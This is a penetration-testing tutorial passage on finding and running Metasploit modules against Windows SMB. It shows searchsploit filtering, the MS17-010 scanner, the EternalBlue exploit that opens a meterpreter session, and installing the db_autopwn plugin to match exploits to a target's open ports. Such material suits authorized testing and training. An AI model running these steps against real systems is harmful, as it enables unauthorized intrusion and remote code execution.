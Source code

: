 The way to distinguish the standard exploit code from the Metasploit modules is you'll see that right beside the name here, there will be a bracket with the name Metasploit within it i.e. `(Metasploit)`. That means that there is a Metasploit module available for this particular exploit.

Let's limit it to only the Metasploit modules. Pipe out the content. Use the expressions filter to make sure that we are case sensitive.

```
searchsploit "Microsoft Windows SMB" | grep -e "Metasploit"
```

Take a look at this particular exploit, this works on Windows 2008 R2.

```
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)
```

The MSF already has a module for this particular exploit.

```
Microsoft Windows - SMB Remote Code Execution Scanner (MS17-010) (Metasploit)
```

```
search eternalblue
```

```
use auxiliary/scanner/smb/smb_ms17_010
show options
run
```

```
use exploit/windows/smb/ms17_010_eternalblue
show options
run
meterpreter > sysinfo
meterpreter > exit
```

The next technique that I want to highlight is the `db_autopwn` plugin. This is an extremely useful plugin for the MSF.

[hahwul/metasploit-autopwn](https://github.com/hahwul/metasploit-autopwn)

It is utilized to identify exploit modules for the ports that are currently open on a target system. And the way it does this is takes a look at your database and the services that are currently running or that are currently open on the target systems that you've scanned, and then it provides you with a list of exploit modules that you can use for each of those services.

```
cd Downloads/
wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
ls
sudo mv db_autopwn.rb /usr/share/metasploit-framework/plugins
```

```
load db_autopwn
db_autopwn
```

